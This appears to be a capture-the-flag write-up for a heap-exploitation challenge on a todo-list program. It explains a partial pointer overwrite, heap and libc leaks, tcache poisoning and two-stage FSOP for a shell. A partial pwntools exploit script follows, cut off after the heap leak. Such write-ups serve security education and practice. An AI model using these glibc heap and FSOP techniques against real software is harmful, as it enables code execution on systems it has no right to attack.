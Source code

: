 ### Exploit
We can overwrite the low 4 bytes of pointer to description buffer in the `todo_list`. Exploit scenario using this vuln is as follows.

* Overwrite the lowest byte of `desc` pointer to point any tcache chunk's next.
* Call `check()` to the overwritten todo, leak heap base.
* Overlap chunk for unsorted bin leak
    - allocate todos
    - Overwrite the lowest byte of `desc` pointer to point any chunk - 0x10
    - Overwrite size by calling edit to overwritten `desc`
    - Overwrite the lowest byte of `desc` pointer to point the chunk with overwritten size
    - Free it with `delete()`
    - Call `check` to the freed chunk using pointer achieved during allocation, which will print the address of main_arena.

Now we have heap/libc leak, and by poisoning tcache we can achive AAW of 0x18 bytes. However, this amount of write is not enough for getting shell. Therefore we will use 2 stages of FSOP. First one will overwrite stdin's `_IO_buf_base` & `_IO_buf_end`, and second one will overwrite the entire stdout using the first stage.

* Overwrite some tcache chunk's next to `PROTECT_PTR(_IO_2_1_stdin_ + 0x30)` by modifying `desc` pointer + `edit()`
* Allocate from the tcache chunk

> Note that tcache is not used by `calloc`, therefore by calling `load()` which calls malloc inside, we can get modified chunk from tcache. Also, make sure that the modified chunk is the second last chunk of correspoding tcache bin. (check `mp_.tcache_bins`.) Unless, future allocation will use corrupted pointer at `_IO_2_1_stdin_ + 0x30`.
{: .prompt-tip }

* Overwrite stdin's `_IO_buf_base` to `&_IO_2_1_stdout_` and `_IO_buf_end` to `&_IO_2_1_stdout_+0x1000`.

Now next input from user will be written in `_IO_2_1_stdout_`

* Send FSOP payload through stdin, and next print using stdout will pop the shell.

Below is the exploit code I used.

```python
def exploit(p):
    attach(p)
    for i in range(2, 8):
        create_todo(i, b"A", b"B")
    for i in range(2, 8):
        delete_todo(i)

    payload = b"\x20"
    create_todo(0, b"\n", b"[["+ b"A"*0x10+ payload + b"||")    
    # dummy todo for complete_cnt
    create_todo(1, b"A", b"B")
    complete_todo(0)
    complete_todo(1)

    load_todo(1, 0)
    read_todo(0)

    p.recvuntil(b"Desc : ")
    x = u64(p.recvn(6).ljust(8, b"\x00"))
    heap_base = decrypt(x) - 0x300 
    log.info(f"heap_base: {hex(heap_base)}")


    ## overlapping chunk for unsorted bin leak
    for i in range(2, 7):
        create_todo(i, b"A", b"B")

```